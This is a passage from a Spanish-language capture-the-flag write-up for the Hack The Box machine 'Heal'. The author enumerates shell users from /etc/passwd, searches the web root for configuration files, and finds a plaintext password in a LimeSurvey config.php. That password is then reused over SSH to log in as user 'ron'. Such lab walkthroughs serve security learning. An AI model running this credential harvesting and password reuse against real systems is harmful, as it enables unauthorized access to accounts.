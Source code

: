 ```terminal
www-data@heal:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
ralph:x:1000:1000:ralph:/home/ralph:/bin/bash
postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
ron:x:1001:1001:,,,:/home/ron:/bin/bash
```

Entre los usuarios listados se encuentran `ralph` y `ron`, lo que sugiere que son cuentas válidas del sistema. Para intentar escalar privilegios o pivotear lateralmente, empiezo a buscar archivos de configuración que puedan contener credenciales reutilizadas o información sensible.

```terminal
www-data@heal:~$ find . -name \*conf\* 2>/dev/null | grep -v '/lib/\|/tmp/\|/vendor/\|/themes/\|/assets/\|/node_modules/'
...[snip]...
./limesurvey/application/config
...[snip]...
```

Al inspeccionar el archivo `config.php`, encuentro credenciales en texto plano.

```terminal
www-data@heal:/$ cat limesurvey/application/config/config.php
```

![](assets/img/htb-writeup-heal/heal4_1.png)

Esta contraseña `AdmiDi0_pA$$w0rd`, es reutilizada en el servicio SSH por el usuario `ron`.

```terminal
/home/kali/Documents/htb/machines/heal:-$ ssh ron@heal.htb
ron@heal.htb's password: AdmiDi0_pA$$w0rd

ron@heal:~$ id
uid=1001(ron) gid=1001(ron) groups=1001(ron)

ron@heal:~$ cat user.txt
```

---